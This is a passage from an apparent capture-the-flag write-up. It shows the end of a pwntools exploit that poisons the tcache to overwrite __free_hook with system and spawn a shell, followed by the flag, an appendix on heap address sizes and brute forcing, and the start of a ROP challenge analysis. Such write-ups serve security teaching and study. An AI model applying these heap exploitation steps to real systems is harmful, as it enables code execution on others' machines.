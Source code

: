 ```python

p.recv(1)


heap = u32(p.recvline()[:-1].ljust(4, "\x00")) - 0x260

print("heap", hex(heap))


add(1, "A"*16 + p64(libc.sym["__free_hook"]))
add(1, "AAAA")

add(2, p64(libc.sym["system"]))


add(1, "/bin/sh")


flip()

p.interactive()
```

Flag: `dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}`


### Appendix
Some may be confused as to why writing a `0x404020` to the tcache next was possible to poison the tcache, as their heap addresses were 6 bytes. So, writing only 3 bytes would make for a bad chunk pointer and crash the program.

However, the heap addresses on remote were 3-4 bytes. I believe patchelf with the libc and linker also caused the heap addresses to be 3-4 bytes, but using LD_PRELOAD would keep the 6 byte addresses.

Even with a 6 byte heap, the challenge was solvable with a 4 bit brute force. You can write a `\x60\x00` to the chunk after flipping, which will overwrite the last two bytes of the `fwd` of the double freed chunk. This will set you up for a 1/16th chance tcache overwrite to fully poison the freelist with `0x404020`.


## babyrop
Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

There is a clear buffer overflow in the main function, with an unsafe `gets(&buf)`. No canary and PIE means that this is a clear ROP challenge.
